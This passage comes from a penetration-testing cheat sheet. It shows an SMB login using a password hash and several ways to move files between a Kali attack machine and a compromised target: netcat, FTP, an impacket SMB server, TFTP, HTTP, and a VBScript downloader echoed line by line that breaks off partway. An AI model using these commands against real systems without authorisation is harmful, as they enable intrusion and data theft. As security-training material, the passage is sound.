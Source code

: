 If you want to login to SMB, you could also do `smbmap -u [username] -p [hash] -H [IP]`.

### File Upload/Download
<b>Netcat:</b>

On the receiving end: `nc -l -p 1234 > file`

On the sending end: `nc [destination] 1234 < file`

<b>pyftpdlib:</b>

On Kali Linux:

```
cp folder/to/share
pip install pyftpdlib
python -m pyftpdlib -w -p 21
```

On the target: `ftp [your IP]`

On the target, you could also write down the ftp commands you'll use in a file and then run `ftp -s:ftp_commands.txt`. The first line should be `open [IP address]`, and the next two lines should be the username and password (if the username is anonymous, you can set the password to be anything, but it must be something).

<b>smbserver.py</b>

On Kali:

```
wget https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/smbserver.py
smbserver.py a file
```

On the target: `\\[your IP]\a\file`

<b>TFTP</b>

On Kali:

```
mkdir tftp/
atftpd --daemon --port 69 tftp/
cp [file to send] tftp/
```

On the target: `tftp -i [your IP] get [file]`

<b>HTTP</b>

Setup a web server on Kali using `systemctl enable apache2`. Copy the file that you want to send to /var/www/html/. Then navigate to http://[your IP]/file on the target system's web browser. If you are unable to access the target system's web browser, create a script called wget.vbs on the target machine by running the following code:

```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs 
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs 
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs 
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs 
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs 
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs 
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs 
echo Err.Clear >> wget.vbs 
echo Set http = Nothing >> wget.vbs 
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs 
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs 
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs 
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs 
echo http.Open "GET", strURL, False >> wget.vbs 
echo http.Send >> wget.vbs 
echo varByteArray = http.ResponseBody >> wget.vbs 
```